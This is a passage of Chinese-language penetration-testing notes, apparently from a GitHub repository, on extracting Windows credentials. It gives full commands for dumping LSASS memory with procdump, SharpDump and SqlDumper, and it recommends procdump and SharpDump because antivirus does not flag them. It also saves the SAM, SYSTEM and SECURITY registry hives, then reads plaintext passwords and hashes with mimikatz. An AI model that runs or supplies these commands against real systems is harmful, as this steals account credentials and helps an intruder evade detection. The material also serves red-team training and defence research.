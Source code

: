**直接转储**

在任务管理器找到 lsass.exe，右键创建转储文件

procdump 是微软的官方工具，不会被杀，所以如果你的 mimikatz 不免杀，可以用 procdump 导出 lsass.dmp 后拖回本地抓取密码来规避杀软。
```bash
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

然后用 mimikatz 加载导出来的内存再抓 hash
```bash
sekurlsa::minidump c:\users\test\appdata\local\temp\lsass.dmp
sekurlsa::logonpasswords full
```

**[SharpDump](https://github.com/GhostPack/SharpDump)** c# 免杀抓明文

在管理员权限下运行生成 debug480.bin

特别注意,dump 的文件默认是 bin 后缀,拖到本地机器以后,需要自行把 bin 重命名为 zip 的后缀,然后正常解压处里面的文件,再丢给 mimikatz 去读取即可,如下

mimikatz 加载 dump 文件
```bash
sekurlsa::minidump debug480
sekurlsa::logonPasswords full
```

还有一些工具
- SqlDumper
    ```bash
    tasklist /svc | findstr lsass.exe  # 查看lsass.exe 的PID号
    Sqldumper.exe ProcessID 0 0x01100  # 导出mdmp文件
    ```

**sam + mimikatz**

> 注意：本地复原机器必须与目标机器一致，且需要在系统权限下执行

从 sam 中提取目标系统用户 hash
```bash
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
```

将上述三个文件复制到攻击机本地，然后使用 mimikatz 获取用户 hash
```bash
lsadump::sam /system:system.hiv /sam:sam.hiv /security:security.hiv
```

**windbg 中载入 mimilib 模块**

在 windbg 中载入 dmp 文件

![](../../../assets/img/Security/安全工具/mimikatz/5.png)

![](../../../assets/img/Security/安全工具/mimikatz/6.png)

运行. symfix，然后执行. reload
